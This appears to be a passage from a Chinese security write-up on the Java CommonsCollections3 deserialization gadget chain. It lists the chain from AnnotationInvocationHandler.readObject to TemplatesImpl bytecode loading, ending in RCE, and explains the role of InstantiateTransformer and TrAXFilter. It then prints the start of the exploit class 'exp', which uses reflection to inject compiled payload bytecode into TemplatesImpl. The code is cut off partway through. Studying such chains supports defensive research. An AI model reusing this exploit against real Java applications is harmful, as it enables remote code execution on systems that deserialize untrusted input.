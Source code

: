 

## CommonsCollections3

反序列化调用链如下所示：

```
AnnotationInvocationHandler.readObject()
        Proxy(LazyMap).extrySet()
             LazyMap.get()
               ChainedTransformer.transform()
                 constantTransformer(TrAXFilter.class)　
                   InstantiateTransformer.transform()
                     Constructor.newInstance()
                       TemplatesImpl.newTransformer()
                          (payload实例化)rce-&gt;calc.exe
```

cc3从外层和cc1一样都是从AnnotationInvocationHandler的readObject进入，不同点是内部引入了新的InstantiateTransformer类，该类的transformer有个特点即可以通过newInstance方法实例化入口的key

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01782f11608fd96ce0.png)

那么因为AnnotationInvocationHandler+lazymap.get不存在的key导致key不可控，因此只需要chainedTransformer第一个transfomer为constanttransformer即可，这里用到了类com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter，该类有个特点即如下图所示其构造函数中调用了templates.newTransformer()函数。<br>**CommonsCollections3.java:**

```
package CommonCollections3;
import javassist.*;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import org.apache.commons.collections.functors.InstantiateTransformer;
import  com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.apache.commons.collections.map.LazyMap;
import javax.xml.transform.Templates;
import java.io.File;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.*;
import java.util.HashMap;
import java.util.Map;
//@Dependencies(`{`"commons-collections:commons-collections:3.1"`}`)
public class exp `{`
    public static void main(String[] args) throws ClassNotFoundException, IllegalAccessException, InvocationTargetException, InstantiationException, NoSuchFieldException, NotFoundException, IOException, CannotCompileException `{`
        //构造TemplatesImpl实例 
        TemplatesImpl tmp = new TemplatesImpl();
        //封装TemplatesImpl实例
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(payload.class));
        CtClass pay = pool.get(payload.class.getName());
        byte[] PayCode = pay.toBytecode();
        Class clazz;
        clazz  = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
        Field tf = clazz.getDeclaredField("_bytecodes");
        tf.setAccessible(true);
        tf.set(tmp,new byte[][]`{`PayCode`}`);
        Field name = clazz.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(tmp,"tr1ple");
```